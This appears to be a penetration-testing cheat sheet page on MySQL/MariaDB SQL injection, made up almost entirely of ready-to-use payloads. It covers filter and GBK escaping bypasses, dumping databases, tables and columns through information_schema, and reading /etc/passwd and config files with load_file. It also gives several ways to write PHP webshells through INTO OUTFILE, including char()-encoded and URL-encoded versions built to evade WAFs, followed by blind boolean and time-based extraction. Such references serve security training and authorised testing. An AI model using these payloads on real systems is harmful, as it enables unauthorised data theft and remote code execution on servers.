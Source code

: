 ```yaml
---
title: MySQL/MariaDB Common
layout: default
parent: SQL Injection
has_children: false
nav_order: 1
---
```



For MySQL/MSSQL: `select @@version` can return the version, others will error

`%09` can be used in case space is filtered. Of course comments can also.

`\xBF'` or URL encoded `%bf%27` to create a single quote that won't be escaped properly. (only in GBK) Example: `admin%bf%27%20or%201=1%20--+`

`sleep(5)` will delay 5 seconds

check can how many columns: `order by x`, keep on increasing until error. last number will be number of columns

Concatenating (concatenate put 2 together, group concatenate put all the values in one column as one): `concat(name1,":",name2)` or `group_concat(column_name)`

To comment, use `xx-- `(got space in the end, important)

Show all <b>databases</b>: `select schema_name from information_schema.schemata;` OR `show databases;` show the database in the current one: `select database()`

Show the <b>table name</b> and which database it is from, for a database call xx: `select table_name, table_schema from information_schema.tables where table_schema='xx'`

Show the <b>column name</b> if table name is yy: `select column_name,table_schema from information_schema.columns where table_name='yy'`

Finally to retrieve the info use `select bb, cc from xx.yy`

See which user logged in: `select user()`

Check if got superuser privilege: `select super_priv from mysql.user where user="xx"`

Check privilege in detailed: `select grantee, privilege_type from information_schema.user_privileges`

Read file from OS: `select load_file("/etc/passwd")` (Can attempt to load the current php page to disclose sensitive info using default path like /var/www/html/xx.php) <b>USE DOUBLE SLASH FOR WINDOWS IF FAIL</b>

Check secure file privileges: `SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"` (Empty=can read/write everywhere. If got a folder name means only read/write from there. NULL=read/write nowhere)\
Alternative:\
`SELECT @@GLOBAL.secure_file_priv;`

Write file into OS (must have FILE privilege, secure_file_priv not enabled, and write access to the server): `select "xxx" into outfile "/var/html/www/test.php"` (c:/xampp/htdocs/ can try too) <b>USE DOUBLE SLASH FOR WINDOWS IF FAIL</b>

For example to write webshell(using 0 as parameter for RCE), can use `select "", "<?php system($_REQUEST[0]); ?>","" into outfile "/var/www/html/test.php"`

To find out webroot read Apache configuration file (if have FILE):\
`select load_file("/etc/apache2/httpd.conf")`

One example of full writing webshell to Windows (bypassing waf/encoding, using 0 as parameter for RCE): `UNION SELECT char(60,63,112,104,112,32,115,121,115,116,101,109,40,36,95,82,69,81,85,69,83,84,91,48,93,41,59,32,63,62) INTO OUTFILE "C:\\wamp\\www\\PHP\\shell1.php"`

Another webshell example tested on MariaDB using the encoded version: 
Text: `' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php' -- `
Encoded: `%27+UNION+SELECT+%28%22%3C%3Fphp+echo+passthru%28%24_GET%5B%27cmd%27%5D%29%3B%22%29+INTO+OUTFILE+%27C%3A%2Fxampp%2Fhtdocs%2Fcmd.php%27+--+`

<b>Error based</b> (show 32 characters only, and cannot use if the output is pure alphanumeric or starts with `/` `.` and `@`)\
`extractvalue('',concat('>',version()))`

<b>Blind boolean based:</b> First still try to establish the number of columns (order by x/union select null,null..). Once established, use the following (if eg previously is 3 columns) to get <b>database name</b>: `union select null,null,null where database() like '%';-- `, after that `union select null,null,null where database() like 'a%';-- `, and keep on until you get database name. To get <b>table name</b>, use `union select null,null,null from information_schema.tables where table_schema = 'dbname' and table_name like 'a%';-- `. Finally to get <b>column name</b>, use `union select null,null,null from information_schema.columns where table_schema='dbname' and table_name='tablename' and column_name like 'a%';-- `. To remove as there are multiple columns, use `union select null,null,null from information_schema.columns where table_schema='dbname' and table_name='tablename' and column_name like 'a%' and column_name!='notthis';-- `. <b>After getting all details</b>, use the following to extract the information `union select 1,2,3 from dbname.tablename where columnname like 'a%';-- `. Repeat for multiple column names.

<b>Blind time based:</b> Almost same as blind boolean. First establish number of columns while setting one of them to sleep(5), and keep on adding until you get a different response time which means that is the correct number of columns. Example: `union select sleep(5),null;-- `. After that just follow blind boolean based.